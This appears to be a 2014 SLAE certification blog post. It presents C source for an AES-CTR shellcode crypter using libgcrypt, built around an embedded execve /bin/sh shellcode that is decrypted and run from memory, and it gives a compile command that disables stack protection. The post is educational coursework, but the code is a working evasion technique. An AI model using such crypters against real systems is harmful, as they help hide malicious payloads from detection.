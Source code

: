```yaml
---
comments: true
date: 2014-05-12 12:01:03+00:00
layout: post
title: 'SLAE Assignment 7: Custom Crypter'
categories:
- programming
- SLAE
---
```


This is the last assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

	
  1. Create a custom crypter like the one shown in "crypters" video

	
  2. Free to use any existing encryption schema

	
  3. Can use any programming language


I chose to use C and libgcrypt for this task.

Here is the source code for the encryption and decryption:

```c
    //Description:	Assignment #7 (PoC of Crypter using AES-256)
    //Author: 		Paolo Stivanin <https://github.com/polslinux>
    //SLAE ID:		526
    
    #include <stdio.h>
    #include <string.h>
    #include <gcrypt.h>
    #include <stdint.h>
    
    #define ENC 1
    
    static void crypt(int, size_t, uint8_t *);
    
    uint8_t origShell[] = "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";
    #if !ENC
    	uint8_t encShell[] = "";
    #endif
    uint8_t iv[] = {0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x04};
    uint8_t ctr[] = {0x02,0x04,0x01,0x01,0x02,0x09,0xf1,0xc2,0x03,0x01,0x02,0xdd,0xec,0x02,0x03,0x04};
    const char *key = "securitytubeSLAE";
    
    int main(void){
    	int i, ag = gcry_cipher_map_name("aes256");
    	size_t ln = strlen(origShell);
    	uint8_t *buf = malloc(ln);
    
    	crypt(ag, ln, buf);
    	#if ENC
    		for(i=0; i<ln; i++){
    			printf("\\x%02x", buf[i]);
    		}
    		printf("\n");
    	#else
    		int (*ret)() = (int(*)())buf;
    		ret();
    	#endif
    
    	free(buf);
    
    	return 0;
    }
    
    static void crypt(int algo, size_t len, uint8_t *buf){
    	gcry_cipher_hd_t hd;
    	gcry_cipher_open(&hd, algo, GCRY_CIPHER_MODE_CTR, 0);
    	gcry_cipher_setkey(hd, key, 16);
    	gcry_cipher_setiv(hd, iv, 16);
    	gcry_cipher_setctr(hd, ctr, 16);
    	#if ENC
    		gcry_cipher_encrypt(hd, buf, len, origShell, len);
    	#else
    		gcry_cipher_decrypt(hd, buf, len, encShell, len);
    	#endif
    	gcry_cipher_close(hd);
    }
```

I chose to use AES-256 to encrypt the shellcode (origShell , it contains the shellcode execve(/bin/sh, NULL, NULL) ). You can customize the encryption data by changing the iv , ctr  and key .

If you want to decrypt and run the shellcode you only need to change `#define ENC 1`  to `#define ENC 0` and then write the encrypted shellcode inside encShell .

To compile the above source I used this command:

```
gcc PoC_Crypter.c -o crypter -lgcrypt -fno-stack-protector -z execstack
```

This is all for this assignment and also for the SLAE certification. It was very interesting and funny to dive into the art of shellcoding and reversing, I enjoyed a lot this course, thanks SecurityTube :-)

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**
